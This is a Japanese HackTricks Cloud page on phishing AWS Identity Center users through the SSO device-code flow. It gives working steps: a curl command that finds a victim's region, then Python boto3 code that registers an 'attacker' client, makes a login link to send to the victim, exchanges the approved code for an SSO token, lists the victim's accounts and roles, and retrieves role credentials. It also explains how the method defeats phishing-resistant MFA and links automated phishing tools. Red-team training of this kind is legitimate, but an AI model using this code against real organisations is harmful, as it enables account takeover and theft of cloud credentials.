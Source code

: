 # AWS - Identity Center & SSO Unauthenticated Enum

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスウェグ**](https://peass.creator-spring.com)を手に入れる
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する
- **ハッキングトリックを共有するために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する**

</details>

## AWSデバイスコードフィッシング

最初に[**このブログ投稿**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)で提案された方法で、AWS SSOを使用して**ユーザーにリンクを送信**することで、**ユーザーが承認すると**、攻撃者は**ユーザーをなりすましてアクセス**し、ユーザーが**Identity Center**でアクセスできるすべてのロールにアクセスできるトークンを取得できます。

この攻撃を実行するために必要なものは次のとおりです：

- 犠牲者は**Identity Center**を使用する必要があります
- 攻撃者は、犠牲者が使用している**サブドメイン** `<victimsub>.awsapps.com/start` を知っている必要があります

前述の情報だけで、**攻撃者はユーザーにリンクを送信**し、**承認されると**、**攻撃者はAWSユーザーアカウントにアクセス**できるようになります。

### 攻撃

1. **サブドメインを見つける**

攻撃者の最初のステップは、被害者企業がIdentity Centerで使用しているサブドメインを見つけることです。これは、**OSINT**または**推測+BF**を使用して行うことができます。ほとんどの企業はここで自社名またはそのバリエーションを使用している可能性が高いためです。

この情報を使用すると、Identity Centerが構成された地域を取得できます：
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **被害者用のリンクを生成して送信する**

以下のコードを実行して、被害者が認証できるAWS SSOログインリンクを生成します。\
デモ用に、このコードをPythonコンソールで実行し、後でトークンを取得するためにいくつかのオブジェクトが必要になるため、コンソールを終了しないでください：
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **被害者がそれを受け入れるのを待つ**

被害者が**すでにAWSにログインしている**場合、権限を付与することを受け入れるだけで済みます。ログインしていない場合は、**ログインしてから権限を付与する必要があります**。\
これが現在のプロンプトの見た目です：

<figure><img src="../../../.gitbook/assets/image (154).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSOアクセストークンを取得する**

被害者がプロンプトを受け入れた場合、次のコードを実行して**ユーザーをなりすましてSSOトークンを生成**します：
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSOアクセストークンは**8時間有効**です。

5. **ユーザーを偽装する**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

前の攻撃が「unphisable MFA」（webAuthを使用している場合でも）機能することを知るのは楽しいです。これは、前のワークフローが使用されるOAuthドメインを離れないためです。他のフィッシング攻撃とは異なり、ユーザーがログインドメインを置き換える必要がある場合がありますが、この場合、デバイスコードワークフローが準備されているため、コードがデバイスによって知られており、ユーザーは異なるマシンでもログインできます。プロンプトが受け入れられると、デバイスは単に最初のコードを知っているだけで、ユーザーの資格情報を取得できます。

詳細については、[**この投稿をチェックしてください**](https://mjg59.dreamwidth.org/62175.html)。

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>こちらをチェック！</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksをPDFでダウンロード**したり、**HackTricksを広告する**ことができる場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加**したり、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する

</details>
